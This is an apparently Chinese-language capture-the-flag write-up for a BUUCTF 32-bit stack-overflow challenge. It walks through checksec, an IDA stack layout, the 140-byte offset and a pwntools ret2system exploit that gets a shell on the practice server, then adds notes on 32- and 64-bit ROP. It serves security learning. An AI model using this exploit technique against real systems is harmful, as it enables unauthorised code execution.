 # 题目

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744198723892-0d8c42e0-2e80-4405-8936-1d04c26801db.png)

# 做法

开虚拟机，checksec

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744605539838-e9797d99-4476-461a-aff8-9fe5a5edf6db.png)

32位，没开栈保护

扔进IDA（32位），找到main，F5反编译

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744605589382-97c4ee89-6e34-48e9-b86b-36d54e34d009.png)

调用了一个函数vulnerable_function，其他没啥用，点进去

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744606252759-9c73dc21-a35d-479c-8247-50ccad34262a.png)

也是没啥用，点进buf看下

完整代码，buf对应第9行buf

```
-00000088 ; D/A/*   : change type (data/ascii/array)
-00000088 ; N       : rename
-00000088 ; U       : undefine
-00000088 ; Use data definition commands to create local variables and function arguments.
-00000088 ; Two special fields " r" and " s" represent return address and saved registers.
-00000088 ; Frame size: 88; Saved regs: 4; Purge: 0
-00000088 ;
-00000088
-00000088 buf             db ?
-00000087                 db ? ; undefined
-00000086                 db ? ; undefined
-00000085                 db ? ; undefined
-00000084                 db ? ; undefined
-00000083                 db ? ; undefined
-00000082                 db ? ; undefined
-00000081                 db ? ; undefined
-00000080                 db ? ; undefined
-0000007F                 db ? ; undefined
-0000007E                 db ? ; undefined
-0000007D                 db ? ; undefined
-0000007C                 db ? ; undefined
-0000007B                 db ? ; undefined
-0000007A                 db ? ; undefined
-00000079                 db ? ; undefined
-00000078                 db ? ; undefined
-00000077                 db ? ; undefined
-00000076                 db ? ; undefined
-00000075                 db ? ; undefined
-00000074                 db ? ; undefined
-00000073                 db ? ; undefined
-00000072                 db ? ; undefined
-00000071                 db ? ; undefined
-00000070                 db ? ; undefined
-0000006F                 db ? ; undefined
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C                 db ? ; undefined
-0000006B                 db ? ; undefined
-0000006A                 db ? ; undefined
-00000069                 db ? ; undefined
-00000068                 db ? ; undefined
-00000067                 db ? ; undefined
-00000066                 db ? ; undefined
-00000065                 db ? ; undefined
-00000064                 db ? ; undefined
-00000063                 db ? ; undefined
-00000062                 db ? ; undefined
-00000061                 db ? ; undefined
-00000060                 db ? ; undefined
-0000005F                 db ? ; undefined
-0000005E                 db ? ; undefined
-0000005D                 db ? ; undefined
-0000005C                 db ? ; undefined
-0000005B                 db ? ; undefined
-0000005A                 db ? ; undefined
-00000059                 db ? ; undefined
-00000058                 db ? ; undefined
-00000057                 db ? ; undefined
-00000056                 db ? ; undefined
-00000055                 db ? ; undefined
-00000054                 db ? ; undefined
-00000053                 db ? ; undefined
-00000052                 db ? ; undefined
-00000051                 db ? ; undefined
-00000050                 db ? ; undefined
-0000004F                 db ? ; undefined
-0000004E                 db ? ; undefined
-0000004D                 db ? ; undefined
-0000004C                 db ? ; undefined
-0000004B                 db ? ; undefined
-0000004A                 db ? ; undefined
-00000049                 db ? ; undefined
-00000048                 db ? ; undefined
-00000047                 db ? ; undefined
-00000046                 db ? ; undefined
-00000045                 db ? ; undefined
-00000044                 db ? ; undefined
-00000043                 db ? ; undefined
-00000042                 db ? ; undefined
-00000041                 db ? ; undefined
-00000040                 db ? ; undefined
-0000003F                 db ? ; undefined
-0000003E                 db ? ; undefined
-0000003D                 db ? ; undefined
-0000003C                 db ? ; undefined
-0000003B                 db ? ; undefined
-0000003A                 db ? ; undefined
-00000039                 db ? ; undefined
-00000038                 db ? ; undefined
-00000037                 db ? ; undefined
-00000036                 db ? ; undefined
-00000035                 db ? ; undefined
-00000034                 db ? ; undefined
-00000033                 db ? ; undefined
-00000032                 db ? ; undefined
-00000031                 db ? ; undefined
-00000030                 db ? ; undefined
-0000002F                 db ? ; undefined
-0000002E                 db ? ; undefined
-0000002D                 db ? ; undefined
-0000002C                 db ? ; undefined
-0000002B                 db ? ; undefined
-0000002A                 db ? ; undefined
-00000029                 db ? ; undefined
-00000028                 db ? ; undefined
-00000027                 db ? ; undefined
-00000026                 db ? ; undefined
-00000025                 db ? ; undefined
-00000024                 db ? ; undefined
-00000023                 db ? ; undefined
-00000022                 db ? ; undefined
-00000021                 db ? ; undefined
-00000020                 db ? ; undefined
-0000001F                 db ? ; undefined
-0000001E                 db ? ; undefined
-0000001D                 db ? ; undefined
-0000001C                 db ? ; undefined
-0000001B                 db ? ; undefined
-0000001A                 db ? ; undefined
-00000019                 db ? ; undefined
-00000018                 db ? ; undefined
-00000017                 db ? ; undefined
-00000016                 db ? ; undefined
-00000015                 db ? ; undefined
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

栈溢出，我们先数一下offset=8* 16+8+4=140

然后我们Shift+F12寻找后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744606718308-4f4dcf71-3d70-4408-8a52-892f0095391a.png)

这里有system和/bin/sh

我们点进去看看能不能找到被谁调用了，但是最后空手而归，没能找到后门函数

但是有system（左边函数列表的那个，不是Shift+F12弹出来的字符串）和/bin/sh，我们可以尝试构建ROP链

exp如下（不懂看《补充》）

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744607257860-cf0814c8-e8c1-4bfe-a0b5-a6f9a6c7ecfb.png)

```
#导入pwntools模块：
from pwn import *

#和靶机进行连接：
r = remote("node5.buuoj.cn",29044)

#定义 payload
payload = b'a' * 140 + p32(0x8048320) + p32(0) + p32(0x804A024)

#发送payload
r.sendline(payload)

#获取靶机交互式终端：
r.interactive()
```

常规，得出flag

![](https://cdn.nlark.com/yuque/0/2025/png/53467226/1744607373873-a991daf3-34d1-4a10-9a21-e7eed2ed4ac9.png)

# 补充

## 1

32位中调用system函数时需要传入一个将来的返回地址，这个返回地址随意，但必须要有

（不要写有特殊含义的之类，一般直接填0即可eg. p32(0) ）

## 2

### （1）

32位的ROP是system函数在前，bin/sh函数在后，两函数中填入一个将来的返回地址，一般直接填0

### （2）

64位的ROP是bin/sh函数在前，system函数在后，两函数之前需要加上该文件的pop rdi地址

（用ROPgadget实现）

# 更新

于2025.4.14